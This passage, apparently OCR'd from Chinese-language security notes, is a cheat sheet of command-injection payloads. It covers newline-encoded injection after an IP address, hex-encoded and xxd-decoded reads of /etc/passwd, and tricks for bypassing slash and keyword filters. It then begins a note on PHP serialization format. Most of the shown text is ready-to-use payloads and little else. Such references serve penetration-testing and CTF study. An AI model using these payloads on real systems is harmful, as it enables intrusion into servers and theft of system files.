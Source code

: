 ```
127.0.0.1%0Awhoami

127.0.0.1%5C%0Awhoami
```

- ASCII扩展（`$'\x20\x00'`）

```shell
# `` 和 $() 中的内容会被当做命令运行
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc

`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`

cat `xxd -r -p <<< 2f6574632f706173737764`
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

- 绕过符号过滤（`/`）

```shell
${HOME:0:1}

$(echo . | tr '!-0' '"-1')
`echo . | tr '(-0' ')-1'`
```

- 绕过关键词过滤

```shell
who'am'i

c"a"t /etc/pass'w'd

wh\o\a\mi

who``ami

who$()ami

x=/et000c/pa000sswd;echo ${x//000/}
```

## PHP反序列化

记忆方式：复合类型后跟花括号，花括号里面逐个放入键值。除了复合类型（数组和对象外），其余简单类型后都有分号。一元（1个）：空类型。二元（3个）：布尔、整型、浮点。三元（2个）：字符串、数组。五元（1个）：对象。【13201】

- 布尔值 `b:<value>;`

```
b:1;
b:0;
```
